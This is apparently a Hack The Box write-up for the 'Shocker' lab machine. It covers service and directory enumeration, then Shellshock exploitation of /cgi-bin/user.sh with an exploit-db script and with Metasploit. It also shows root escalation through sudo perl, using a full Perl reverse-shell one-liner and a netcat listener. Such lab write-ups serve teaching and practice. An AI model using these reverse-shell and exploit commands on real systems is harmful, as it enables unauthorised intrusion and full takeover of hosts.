

* Table of contents
{:toc}

# Machine Info
**IP**: 10.10.10.56

**OS**: Linux

**Difficulty**: Easy

# Enumeration I

## **nmap**
```
$ nmap -T4 -p- 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-29 17:57 EDT
Warning: 10.10.10.56 giving up on port because retransmission cap hit (6).
Stats: 0:02:13 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 90.69% done; ETC: 17:59 (0:00:14 remaining)
Nmap scan report for 10.10.10.56
Host is up (0.061s latency).
Not shown: 65486 closed ports, 47 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 217.36 seconds
```

### **Further Enumeration of Open Services**
```
$ sudo nmap -T4 -p80,2222 -A 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-29 18:01 EDT
Nmap scan report for 10.10.10.56
Host is up (0.067s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   89.20 ms 10.10.16.1
2   45.45 ms 10.10.10.56

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.50 seconds
```
Enumeration of the open services presents us with a website and a SSH open port. Since we are unlikely to gain any information from the SSH service, without further ado we enumerate the web service.

## **Web Enumeration**
There is a simple webpage hosted on the server that doesn't really tell us anything new. 

### **Wappalyer and whatweb**
Wappalyzer and whatweb confirm that the site is running on Apache 2.4.18 but reveal nothing more. 



```
$ whatweb http://10.10.10.56/
http://10.10.10.56/ [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.56]
```
### **Directory Enumeration**
With nowhere else left to go, enumeration of the website for possible directories or files seems the most likely option. So, I quickly fired up gobuster, and it found the below directories.
```
$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.56/ -t 50                                                                                   1 ⚙
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/29 21:06:04 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/cgi-bin/             (Status: 403) [Size: 294]
/server-status        (Status: 403) [Size: 299]
                                               
===============================================================
2021/07/29 21:06:18 Finished
===============================================================
```

# Vulnerability
Searching for vulnerabilities related to Apache and cgi leads us to the Shellshock vulnerability exploit ([here](https://www.exploit-db.com/exploits/34900)). The same can be seen in the result from searchsploit.

```
$ searchsploit apache cgi   
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                         |  Path
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution                                                                        | php/remote/29290.c
Apache 0.8.x/1.0.x / NCSA HTTPd 1.x - 'test-cgi' Directory Listing                                                                     | cgi/remote/20435.txt
Apache 1.1 / NCSA HTTPd 1.5.2 / Netscape Server 1.12/1.1/2.0 - a nph-test-cgi                                                          | multiple/dos/19536.txt
Apache 1.3.34/1.3.33 (Ubuntu / Debian) - CGI TTY Privilege Escalation                                                                  | linux/local/3384.c
Apache 2.2.2 - CGI Script Source Code Information Disclosure                                                                           | multiple/remote/28365.txt
Apache mod_cgi - 'Shellshock' Remote Command Injection                                                                                 | linux/remote/34900.py
Apache Tomcat - CGIServlet enableCmdLineArguments Remote Code Execution (Metasploit)                                                   | windows/remote/47073.rb
AWStats 6.x - Apache Tomcat Configuration File Arbitrary Command Execution                                                             | cgi/webapps/35035.txt
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The name of the machine suggests that the exploit might be related to the Shellshock vulnerability and we are on the right path. (I will provide links for Shellshock in the reference section below, if you want to read up further on it.)

# Enumeration II
So, now what we want to find is a valid page that exists inside the **cgi-bin/** path. And honestly, I really struggled with this. Initially I was just looking for pages with the extension .cgi and .php, and no matter the wordlist I could not find anything. I tried to use dirbuster and FFuF to see if I was doing anything wrong, or the tool was not able to detect, and still there was no outcome. 

Feeling frustrated to no end, I took a break. After I came back, I knew that I was on the right track and I just needed to find the page. So, I started to run gobuster again with other extensions like .html, .py and .sh, and finally found a page.

```
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.56/cgi-bin/ -t 200 -x .py,.sh                       1 ⚙
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,py,sh,rb,cgi
[+] Timeout:                 10s
===============================================================
2021/07/29 21:06:47 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 118]
                                               
===============================================================
2021/07/29 21:08:24 Finished
===============================================================
```

# Exploitation w/o Metasploit
Glancing through the exploit script, we can see that it needs some input paramaters for the local and remote host, and the page on which the exploit will be run. We trigger the script and get a shell as the user Shelly.

```
$ ./34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.16.173 lport=4444 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

10.10.10.56> whoami
shelly
```
## **Privilege Escalation**
The escalation from user privilege to root is trivial. Checking the privilege of Shelly and what commands she is allowed to run on the machine, we find that Shelly can run perl  with sudo privilege.
```
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
Now, all we have to do is run perl to start a reverse shell, and set up a netcat listener on our system to get the root shell.

### **Perl Reverse Shell**
```
10.10.10.56> sudo /usr/bin/perl -e 'use Socket;$i="10.10.16.173";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### **Netcat Listener**
```
$ nc -nvlp 5555   
listening on [any] 5555 ...
connect to [10.10.16.173] from (UNKNOWN) [10.10.10.56] 39964
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

# Exploitation with Metasploit
We also have the exploit for Shellshock vulnerability inbuilt into Metasploit as well. Once we set the required options for the module, running it gives us a shell like before.

```
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting   Required  Description
   ----            ---------------   --------  -----------
   CMD_MAX_LENGTH  2048              yes       CMD max line length
   CVE             CVE-2014-6271     yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent        yes       HTTP header to use
   METHOD          GET               yes       HTTP method to use
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.10.10.56       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /bin              yes       Target PATH for binaries used by the CmdStager
   RPORT           80                yes       The target port (TCP)
   SRVHOST         0.0.0.0           yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on a
                                               ll addresses.
   SRVPORT         8080              yes       The local port to listen on.
   SSL             false             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /cgi-bin/user.sh  yes       Path to CGI script
   TIMEOUT         5                 yes       HTTP read response timeout (seconds)
   URIPATH                           no        The URI to use for this exploit (default is random)
   VHOST                             no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > show targets 

Exploit targets:

   Id  Name
   --  ----
   0   Linux x86
   1   Linux x86_64


msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.10.16.173:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (984904 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.16.173:4444 -> 10.10.10.56:56694) at 2021-08-01 10:38:10 -0400

meterpreter > getuid
Server username: shelly @ Shocker (uid=1000, gid=1000, euid=1000, egid=1000)
```
## **Privilege Escalation**
The previous escalation vector can be used to gain root privilege here as well.


# Post-Exploitation
## **User Flag**
```
10.10.10.56> cat user.txt
ca****************************65
```
## **Root Flag**
```
# cat root*	
b8****************************54
```

# Resources for Shellshock
1. https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf) 
2. https://blog.cloudflare.com/inside-shellshock/

# Final Notes
1. Fuzz for all possible extensions instead of only the ones that might be related to the server tech stack.